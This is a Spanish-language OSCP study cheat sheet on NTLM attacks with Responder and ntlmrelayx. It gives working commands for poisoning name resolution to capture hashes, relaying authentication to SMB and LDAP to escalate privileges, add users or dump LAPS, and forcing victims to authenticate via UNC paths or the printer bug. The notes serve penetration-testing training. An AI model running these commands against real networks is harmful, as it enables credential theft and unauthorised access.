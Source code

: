 Aunque en OSCP estándar su uso está limitado, en labs o entornos más realistas `Responder` y `ntlmrelayx` son herramientas críticas para escalar privilegios y moverse lateralmente mediante ataques de tipo relay o captura de hashes NTLM.

---

## 1. `Responder`

### ¿Qué es?
Herramienta que envenena peticiones LLMNR, NBT-NS y MDNS para capturar hashes NTLMv1/v2 cuando otros sistemas intentan resolver nombres en la red local.

### Uso básico:
```bash
sudo responder -I <interfaz>
```

Ejemplo:
```bash
sudo responder -I tun0
```

Captura automáticamente hashes NTLM que luego puedes crackear con `john` o `hashcat`.

---

## Configuración recomendada
Edita `Responder.conf` para desactivar SMB y evitar interferencias si vas a usar `ntlmrelayx`:
```ini
SMB = Off
HTTP = On
HTTPS = On
...
```

---

## 2. `ntlmrelayx.py` (impacket)

### ¿Qué es?
Herramienta que intercepta y reenvía autenticaciones NTLM para acceder a otros recursos en nombre de la víctima (relay).

### Requisitos:
- El objetivo debe autenticar contra ti (con ayuda de `Responder` u otro trigger)
- Tener un recurso escuchando (como SMB o HTTP)
- El destino donde relays apuntan debe aceptar NTLM

### Relay a SMB con ejecución remota:
```bash
sudo ntlmrelayx.py -t smb://192.168.100.10 -smb2support --escalate-user
```

### Relay a LDAP con creación de usuario:
```bash
sudo ntlmrelayx.py -t ldap://192.168.100.10 --add-user
```

Puedes usar `--dump-user`, `--dump-laps`, `--add-computer`, `--shadow-credentials`, etc. según permisos.

---

## Trigger del ataque
Lanza algo que fuerce autenticación, como:
- Abrir UNC path desde máquina víctima (`\\KALI_IP\SHARE`)
- Ejecutar scripts que acceden a rutas compartidas
- Aprovechar servicios como `printer bug`, `wsus`, etc.

---

## Casos de Uso OSCP

- Captura de hashes para cracking (Responder)
- Ejecución remota tras relay exitoso (ntlmrelayx)
- Lateral movement con usuarios privilegiados

---

## Buenas prácticas

- Usa en redes activas con tráfico o fuerza interacción
- No mantengas responder activo por defecto en OSCP (puede interferir)
- Filtra tráfico capturado y apunta solo a víctimas específicas cuando uses relay

---
